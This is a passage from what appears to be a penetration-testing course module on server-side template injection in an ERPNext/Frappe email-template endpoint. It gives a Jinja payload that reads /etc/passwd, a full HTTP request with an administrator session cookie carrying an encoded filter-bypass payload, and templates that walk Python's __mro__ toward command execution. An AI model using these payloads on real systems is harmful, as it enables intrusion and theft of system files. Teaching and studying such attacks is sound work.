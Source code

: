 #### SSTI Vulnerability Exploitation

##### Finding a Method for Remote Command Execution

Let's quickly review the SSTI payload that we are modeling.

{{ ''.__class__.__mro__[2].__subclasses__()[40]('/etc/passwd').read() }}
Listing 72 - Accessing __mro__ attribute in payload

To discover what objects are available to us, we can use mro to obtain the object class and then list all subclasses. First, let's set the last line of the email template to "{{ string|attr(class)|attr(mro) }}" to list the mro of the str class.


```
POST /api/method/frappe.email.doctype.email_template.email_template.get_email_template HTTP/1.1
Host: erpnext:8000
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: application/json
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Frappe-CSRF-Token: 40d982af267589a752055032bae9b3c93261930c6e99d04e4462a524
X-Frappe-CMD: 
X-Requested-With: XMLHttpRequest
Content-Length: 798
Origin: http://erpnext:8000
Connection: close
Referer: http://erpnext:8000/desk
Cookie: user_image=; system_user=yes; user_id=Administrator; full_name=Administrator; sid=63a960ebd19d5a6b6a5215c323fae00017887e50991a732fdbfcf809

template_name=Hacking+With+SSTI&doc=%7B%22modified_by%22%3A%22Administrator%22%2C%22owner%22%3A%22Administrator%22%2C%22name%22%3A%22Hacking+With+SSTI%22%2C%22modified%22%3A%222024-08-28+19%3A49%3A38.652382%22%2C%22response%22%3A%22%3Cdiv%3E%7B%25+set+string+%3D+%5C%22ssti%5C%22+%25%7D%3C%2Fdiv%3E%3Cdiv%3E%7B%25+set+class+%3D+%5C%22__class__%5C%22+%25%7D%3C%2Fdiv%3E%3Cdiv%3E%7B%25+set+mro+%3D+%5C%22__mro__%5C%22+%25%7D%3C%2Fdiv%3E%3Cdiv%3E%7B%25+set+subclasses+%3D+%5C%22__subclasses__%5C%22+%25%7D%3C%2Fdiv%3E%3Cdiv%3E%3Cbr%3E%3C%2Fdiv%3E%3Cdiv%3E%7B%7B+string%7Cattr(class)%7Cattr(mro)+%7D%7D%3C%2Fdiv%3E%22%2C%22idx%22%3A0%2C%22subject%22%3A%22Hacking+With+SSTI%22%2C%22doctype%22%3A%22Email+Template%22%2C%22docstatus%22%3A0%2C%22creation%22%3A%222024-08-28+16%3A42%3A59.129341%22%7D&_lang=
```
We should receive a response with two classes: one for the str class and the other for the object class. Since we want the object class, let's access index "1". The value of the email template should be the one found in Listing 73.

{% set string = "ssti" %}
{% set class = "__class__" %}
{% set mro = "__mro__" %}
{% set subclasses = "__subclasses__" %}

{{ string|attr(class)|attr(mro)[1] }}
Listing 73 - Accessing index 1 from mro attribute

If we attempt to save the template, we'll receive an error that it is invalid.
